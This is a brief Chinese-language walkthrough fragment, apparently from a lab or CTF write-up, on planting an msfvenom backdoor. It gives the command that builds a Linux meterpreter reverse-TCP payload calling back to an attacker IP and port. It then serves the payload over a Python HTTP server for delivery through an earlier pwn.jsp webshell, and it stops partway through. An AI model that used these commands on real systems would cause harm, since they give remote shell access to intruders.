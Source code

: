 ------

## msfvenom 后门

生成msf马：

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.47.128 LPORT=8888 -f elf >shell.elf

这里可以冰蝎直接上传，运行，我试试另外一种

使用python在当前目录开一个简单的http服务 默认端口8000：

python -m SimpleHTTPServer 

![img](assets/1695034929956-973b1bef-7675-46a5-952b-54b51f5f6b9b.png)
访问网站看看我自己的kali桌面：

![img](assets/1695034936674-95cfe563-4685-440c-9e22-73e83a0c67c4.png)
利用之前那个pwn.jsp
